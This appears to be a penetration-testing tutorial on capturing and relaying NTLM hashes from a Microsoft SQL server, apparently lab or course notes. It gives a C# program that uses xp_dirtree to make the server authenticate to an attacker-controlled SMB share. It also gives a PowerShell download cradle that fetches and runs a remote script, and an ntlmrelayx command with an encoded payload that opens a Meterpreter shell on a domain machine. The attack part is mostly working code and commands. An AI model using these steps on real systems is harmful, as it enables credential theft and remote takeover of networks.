




## The Attack

**Premise** If we can force an SQL server to connect to an SMB share we control, the connection will include authentication data. NTLM authentication will take place and we should be able to capture the hash of the user account under whose context the SQL server is running.

**Steps**

1.  We are going to start by forcing the SQL server to perform a connection request to a SMB share on our Kali machine. We'll use the [xp_dirtree](https://www.sqlservercentral.com/blogs/how-to-use-xp_dirtree-to-list-all-files-in-a-folder) SQL procedure, which lists all files in a given folder. If we use our unprivileged access in the database to execute the _xp_dirtree_ procedure, the service account of the SQL server will attempt to list the contents of a given SMB share. If the hostname is given as an IP address, Windows will automatically revert to NTLM authentication instead of Kerberos authentication.

The code to authenticate and execute the query will be as follows:
```csharp
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main(string[] args)
        {
            String sqlServer = "dc01.corp1.com";
            String database = "master";

            String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);
           
            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
            }
            catch
            {
                Console.WriteLine("Auth failed");
                Environment.Exit(0);
            }

            String query = "EXEC master..xp_dirtree \"\\\\192.168.119.120\\\\test\";";
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            reader.Close();
            
            con.Close();
        }
    }
}
```

2.  We will now start responder to catch the NTLM share. We will run the c# application inside our victim box, and also shut down any smb connections with the responder running.



The hash obtained by Responder is called a [NTLMv2](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) hash.

3.  We will finally crack the hash using JTR:



## Relay The Hash

If we have captured the NTLM hash of a domain user that is a local administrator on a remote machine, we can perform a pass-the-hash attack and gain remote code execution. To perform this attack, we are going to use the [_Impacket_](https://github.com/SecureAuthCorp/impacket) _ntlmrelayx_ tool. We will use our previously-developed PowerShell runner to execute a Meterpreter staged payload. We first create our encoded powershell download cradle with the linux powershell utility:

```sh
pwsh
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.110/run2.ps1') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

Finally, we run the following command, to use ntlmrelayx and start a listener, and run the c# console application followed by it:

```sh
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.110.104 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEAMQAwAC8AcgB1AG4AMgAuAHAAcwAxACcAKQAgAHwAIABJAEUAWAA='
```

This results in NTLM authentication against our Kali machine and relaying of the Net-NTLM hash.



And we get a shell on the domain joined machine:

